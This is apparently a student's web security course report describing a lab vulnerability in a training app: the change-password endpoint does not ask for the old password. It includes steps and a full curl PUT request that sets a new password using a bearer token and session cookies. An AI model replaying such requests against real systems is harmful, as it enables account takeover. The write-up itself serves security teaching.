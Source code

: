 # Web Application Security

**Student number:** AB0197  
**Name:** Veeti Hakala    
**Group:** TIC21S  
**Time management:** Approximately 10 hours


## Week 02  

### JWT Tokens:

#### Old Wasdat - Curl - Change password using curl

**Title:** Change password feature doesn't require old password. Password can be changed via `CURL`.

**Description:** Web application has a vulnerable change password feature. Authentication with old password is not implemented in the application.

**Steps to produce:**  

1. Navigate to `https://wasdat.fi/8080`.
2. Create a user & login in to the website.
3. Open developer tools and head to user settings.
4. Change password in a browser and copy http request cURL. (Adding something in to `bio` field is required first.)
4. Modify curl statement:  
    > Remove browser header and set password to `JAMK2023` -> `cbcde1454599deb370203eaff81c2ba3ed01805e`  

    ```
    curl -i 'http://wasdat.fi:8080/api/user' \
    -X 'PUT' \
    -H 'Accept: application/json, text/plain, */*' \
    -H 'Accept-Language: en-US,en;q=0.9' \
    -H 'Authorization: Token eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJpYXQiOjE2OTQ0MjQ0NzgsIm5iZiI6MTY5NDQyNDQ3OCwianRpIjoiMzNhOTljODItMmJhMS00NmUzLWFlZmUtOGMwYWQ5NmUzZDI1IiwiZXhwIjo4ODA5NDQyNDQ3OCwiaWRlbnRpdHkiOjEsImZyZXNoIjp0cnVlLCJ0eXBlIjoiYWNjZXNzIiwid2FzIjp0cnVlfQ.crl_EFfcJn_GY0sWv5fQb75yjHMyVqZYAY8vloWoP9U' \
    -H 'Content-Type: application/json;charset=UTF-8' \
    -H 'Cookie: sessionid=4e5ruzr7hol8h73xk5p1m6mch2cr4w7l; csrftoken=W1e4kc6ldN7o6XAew1tiJQYmOIdgmaqm' \
    -H 'Origin: http://wasdat.fi:8080' \
    -H 'Proxy-Connection: keep-alive' \
    -H 'Referer: http://wasdat.fi:8080/' \
    --data-raw '{"user":{"email":"attacker@example.com","username":"attacker","bio":"attacker bio","image":null,"password":"cbcde1454599deb370203eaff81c2ba3ed01805e"}}' \
    --compressed \
    --insecure
    ```  
